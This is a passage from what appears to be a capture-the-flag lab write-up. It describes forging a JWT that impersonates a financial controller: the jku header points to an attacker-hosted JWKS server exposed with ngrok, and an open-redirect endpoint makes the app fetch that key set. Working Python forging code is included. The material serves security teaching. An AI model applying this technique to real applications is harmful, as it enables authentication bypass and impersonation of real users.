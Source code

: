 Run the Flask server and expose it using `ngrok`:

```bash
ngrok http 9000
```

Note the public URL provided by `ngrok` (e.g., `https://abcdef.ngrok.io/.well-known/jwks.json`).

#### Crafting the Forged JWT

Create a JWT that impersonates the financial controller by setting the `email` claim accordingly. The `jku` claim should point to your malicious JWKS server.

```python
import jwt
import datetime

# Replace with your ngrok URL
jku_url = 'https://abcdef.ngrok.io/.well-known/jwks.json'

payload = {
    'email': 'financial-controller@frontier-board.htb',
    'iat': datetime.datetime.utcnow(),
    'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=6)
}

headers = {
    'alg': 'RS256',
    'typ': 'JWT',
    'kid': 'unique-key-id',
    'jku': jku_url
}

forged_token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
print(f'Forged JWT: {forged_token}')
```

#### Using the Open Redirect to Manipulate the `jku` URL

The `/api/analytics/redirect` endpoint can be exploited to redirect the `jku` to your malicious JWKS server. By crafting a URL that leverages this redirect, you ensure that the application fetches your malicious JWKS during JWT verification.

```python
redirect_url = 'https://abcdef.ngrok.io/.well-known/jwks.json'  # Your malicious JWKS URL
exploit_jku = f'http://127.0.0.1:1337/api/analytics/redirect?ref=malicious&url={redirect_url}/'

headers['jku'] = exploit_jku

forged_token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
print(f'Forged JWT with redirect: {forged_token}')
```

#### Validating the Forged JWT

Send the forged JWT to the `/api/dashboard` endpoint to validate its legitimacy.
